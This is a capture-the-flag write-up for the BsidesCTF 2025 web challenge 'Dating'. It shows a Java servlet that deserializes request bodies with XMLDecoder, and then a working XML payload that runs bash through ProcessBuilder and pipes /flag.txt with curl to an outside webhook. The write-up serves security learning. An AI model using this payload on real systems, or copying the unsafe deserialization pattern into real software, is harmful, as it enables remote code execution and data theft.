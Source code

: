 --------------------

### CTF-: BsidesCTF 2025

--------------------

![image](https://github.com/user-attachments/assets/5758bd60-e622-47de-9566-4e408ae2f6f7)

---------------------

### Challenges

----------------------

- Web-:
  - Dating

-----------------------

### Dating

-----------------------

![image](https://github.com/user-attachments/assets/a7046cc7-6849-408c-8aab-17124266f0a6)

-----------------------

- The challenge contains this java file `ProfileServlet.java`.

```java
package com.example.dragon;

import jakarta.servlet.ServletException;
import jakarta.servlet.annotation.WebServlet;
import jakarta.servlet.http.HttpServlet;
import jakarta.servlet.http.HttpServletRequest;
import jakarta.servlet.http.HttpServletResponse;

import java.beans.XMLDecoder;
import java.io.IOException;

@WebServlet("/ProfileServlet")
public class ProfileServlet extends HttpServlet {

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        response.setContentType("text/plain");

        try {
            XMLDecoder decoder = new XMLDecoder(request.getInputStream());
            Object dragonData = decoder.readObject();
            decoder.close();

            response.getWriter().write("Profile received for: " + dragonData.toString());
        } catch (Exception e) {
            response.getWriter().write("Error processing profile: " + e.getMessage());
        }
    }
}
```

- My eyes caught this  line `XMLDecoder decoder = new XMLDecoder(request.getInputStream());`.This class `XML Decoder` in java is vulnerable to `Insecure Deserialization` which can lead to RCE.A specially crafted XML payload can be used to invoke arbitrary java classes and methods to trigger RCE on the server.
- My Xml Payload-:

```xml
<java version="1.8.0" class="java.beans.XMLDecoder">
  <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
      <void index="0">
	<string>/bin/bash</string>
      </void>
      <void index="1">
	<string>-c</string>
      </void>
      <void index="2">
	      <string>cat /flag.txt | /usr/bin/curl https://www.postb.in/1745777549695-6946147335693 -d @-</string>
      </void>
    </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```

- The payload invokes class `java.lang.ProcessBuilder` which runs the `bash` binary with `-c` option to run a statement.Since I can't get an output, I interacted with a web hook with curl which serves the result of the executed command `cat /flag.txt` as `POST` data.

![image](https://github.com/user-attachments/assets/3cff1ab8-2554-4846-a2f9-c49bb10658f0)

- Web hook's result-:

![image](https://github.com/user-attachments/assets/5aa72db4-31a6-4dfb-93df-3a6c0470c2e5)

- Flag-:```CTF{helping-dragons-find-love-since-2025}```

